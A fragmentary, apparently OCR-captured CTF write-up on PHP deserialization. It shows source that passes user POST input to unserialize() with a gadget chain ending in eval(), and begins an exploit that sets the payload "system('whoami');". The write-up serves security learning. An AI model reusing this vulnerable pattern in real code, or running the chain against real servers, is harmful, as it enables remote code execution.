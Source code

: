```
        public $c;

        public function __toString()
        {
                $this -> b -> happy($this -> c);
        }
}

class VanDarkholme{
        public $d;

        public function happy($cmd){
                eval($cmd);
        }
}

if(isset($_POST['str'])){
        unserialize($_POST['str']);
}

```

原来，原来是反序列化

```
<?php
class BillyHerrington
{
    public $a;
    public function __construct(){
        $this->a = new Baoglady();
    }
    public function __wakeup() 
    {
        $this->a = "fxxk you ";
    }

    public function __destruct()
    {
        echo $this->a."Wow";
    }
}

class Baoglady
{
    public $b;
    public $c;
    public function __construct(){
        $this->b = new VanDarkholme();
        $this->c = "system('whoami');";
    }

    public function __toString()
    {
        $this->b->happy($this->c);
    }
}

class VanDarkholme
{
    public $d;

    public function happy($cmd)
    {
```